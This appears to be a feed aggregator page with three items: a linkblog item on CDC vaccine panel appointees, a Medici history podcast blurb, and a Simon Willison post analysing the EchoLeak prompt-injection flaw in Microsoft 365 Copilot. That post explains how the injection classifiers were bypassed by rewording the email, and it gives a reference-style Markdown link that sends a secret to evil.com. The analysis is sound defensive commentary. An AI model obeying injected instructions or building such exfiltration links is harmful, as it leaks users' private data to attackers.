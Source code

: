 **@Dave Winer's linkblog** (date: 2025-06-11, from: Dave Winer's linkblog)

RFK Jr. announces 8 appointees to CDC vaccine panel—they’re not good. 

<br> 

<https://arstechnica.com/health/2025/06/yep-rfk-jr-appoints-anti-vaccine-advocates-to-cdc-vaccine-panel/>

---

## 573. The Medici: Lorenzo the Magnificent (Part 2)

date: 2025-06-11, from: This is history podcast

<p>Who was Lorenzo the Magnificent, the most glamorous, glittering, and blood-soaked of all the Medici, who became his family’s formidable but compulsive “Godfather” from the age of only twenty one? What was the Pazzi Conspiracy, in which he was almost murdered in a bloody plot to eliminate Medici supremacy in Florence, in the middle of [&#8230;]</p>
<p>The post <a href="https://therestishistory.com/573-the-medici-lorenzo-the-magnificent-part-2/">573. The Medici: Lorenzo the Magnificent (Part 2)</a> appeared first on <a href="https://therestishistory.com">The Rest is History</a>.</p>
 

<br> 

<https://therestishistory.com/573-the-medici-lorenzo-the-magnificent-part-2/>

---

## Breaking down ‘EchoLeak’, the First Zero-Click AI Vulnerability Enabling Data Exfiltration from Microsoft 365 Copilot

date: 2025-06-11, updated: 2025-06-11, from: Simon Willison’s Weblog

<p><strong><a href="https://www.aim.security/lp/aim-labs-echoleak-blogpost">Breaking down ‘EchoLeak’, the First Zero-Click AI Vulnerability Enabling Data Exfiltration from Microsoft 365 Copilot</a></strong></p>
Aim Labs reported <a href="https://www.cve.org/CVERecord?id=CVE-2025-32711">CVE-2025-32711</a> against Microsoft 365 Copilot back in January, and the fix is now rolled out.</p>
<p>This is an extended variant of the prompt injection <a href="https://simonwillison.net/tags/exfiltration-attacks/">exfiltration attacks</a> we've seen in a dozen different products already: an attacker gets malicious instructions into an LLM system which cause it to access private data and then embed that in the URL of a Markdown link, hence stealing that data (to the attacker's own logging server) when that link is clicked.</p>
<p>The <a href="https://simonwillison.net/2025/Jun/6/six-months-in-llms/#ai-worlds-fair-2025-46.jpeg">lethal trifecta</a> strikes again! Any time a system combines access to private data with exposure to malicious tokens and an exfiltration vector you're going to see the same exact security issue.</p>
<p>In this case the first step is an "XPIA Bypass" - XPIA is the acronym Microsoft <a href="https://simonwillison.net/2025/Jan/18/lessons-from-red-teaming/">use</a> for prompt injection (cross/indirect prompt injection attack). Copilot apparently has classifiers for these, but <a href="https://simonwillison.net/2022/Sep/17/prompt-injection-more-ai/">unsurprisingly</a> these can easily be defeated:</p>
<blockquote>
<p>Those classifiers should prevent prompt injections from ever reaching M365 Copilot’s underlying LLM. Unfortunately, this was easily bypassed simply by phrasing the email that contained malicious instructions as if the instructions were aimed at the recipient. The email’s content never mentions AI/assistants/Copilot, etc, to make sure that the XPIA classifiers don’t detect the email as malicious.</p>
</blockquote>
<p>To 365 Copilot's credit, they would only render <code>[link text](URL)</code> links to approved internal targets. But... they had forgotten to implement that filter for Markdown's other lesser-known link format:</p>
<pre><code>[Link display text][ref]


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;